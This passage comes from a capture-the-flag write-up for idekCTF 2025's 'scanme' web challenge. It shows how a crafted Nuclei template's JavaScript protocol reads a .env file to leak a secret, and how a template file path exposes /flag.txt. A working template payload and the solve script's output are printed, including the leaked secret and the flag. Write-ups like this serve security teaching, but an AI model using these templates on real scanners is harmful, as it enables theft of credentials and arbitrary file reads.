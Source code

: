 Wait, nothing?

Turns out, [Goja](https://github.com/dop251/goja), a library that implements ECMAScript 5.1 in Golang, doesn't have the context of [`globalThis`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/globalThis). To solve this issue, we can use the alternative, which is global function `log`:

```javascript
require('/home/nuclei/.env');
log(SECRET);
```

```json
{
    "output": "[...]REDACTED[...]",
    "success": true
}
```

Nice! It worked!

## Exploitation

Armed with above information, we can get the flag by:
1. Leak the `SECRET` environment variable via the JavaScript protocol
2. Leak the flag in the error message by using `/flag.txt` as the template file

To automate the above steps, I've written the following Python solve script:

<details><summary><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/idekCTF-2025/web/scanme)-[2025.08.06|19:28:19(HKT)]
└> python3 solve.py
[*] Leaking the `SECRET` environment variable with the following template:

id: anything

info:
  name: anything
  author: siunam
  severity: info

javascript:
  - code: |
      require('/home/nuclei/.env');
      log(SECRET);

[+] Leaked `SECRET` environment variable: 220dd99c96ed6d3724e13b3c808565c85e47a4489951241c
[*] Leaking the flag...
[+] Flag: idek{oops_nuclei_leaked_my_secret_and_now_i_am_very_sad_2e315d_:(}
```

- **Flag: `idek{oops_nuclei_leaked_my_secret_and_now_i_am_very_sad_2e315d_:(}`**

## Conclusion

What we've learned:

1. Dirty arbitrary file read via Nuclei template